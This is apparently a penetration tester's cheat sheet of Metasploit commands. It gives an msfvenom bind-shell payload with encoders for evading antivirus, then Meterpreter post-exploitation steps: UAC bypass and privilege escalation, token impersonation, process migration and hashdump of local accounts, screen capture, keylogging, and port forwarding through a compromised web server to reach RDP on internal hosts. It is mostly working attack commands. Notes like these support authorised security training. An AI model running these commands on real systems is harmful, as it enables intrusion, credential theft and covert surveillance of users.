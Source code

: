   - Bind Shell
  
	      msfvenom -p  windows/meterpreter/bind_tcp RHOST=192.168.11.172 LPORT=5555
  - encoders
	
		    cmd/powershell_base64 work!
	    	x86/shikata_ga_nai work! DO NOT use with symantec
	      -i 10
        
  - help
	
        --help-formats
	      msfvenom --list payloads 
	
  	If use hostname instead of IP addr for listener, must use HTTP instead of TCP


Meterpreter

	    arp
	    run post/windows/gather/enum_logged_on_users
			
  Bypass UAC - privesc when user is also local admin
  		
      use windows/local/bypassuac
	  	set session, LHOST
		  getsystem, or use incognito to impersonate token
 		  Then migrate to a svchost.exe process to dump hashes

  Screen grab
	
      migrate to a process with access to desktop, e.g. explorer
		  use espia
		  screengrab

  Keylogging
	
      keyscan_start
		  keyscan_dump
		  keyscan_stop
	
  Hashdump
	  	
      migrate to another process
		  getsystem
		  hashdump - dump local accounts only
	
  Registry
	
      reg queryval -k 'HKLM\System\CurrentControlSet\Control\Terminal Server\' -v fDenyTSConnections
	
	
  Portforward
	    
      To RDP, in meterpreter session: 
          
          portfwd add -l 5566 -p 3389 -r 192.168.11.155
          
			This will forward kalivps port 5566 to 192.168.11.155 thru the meterpreter session on web server
		      
          ssh -L 5555:localhost:5566 kali@kali1.vps.com to use local kali xfreerdp
	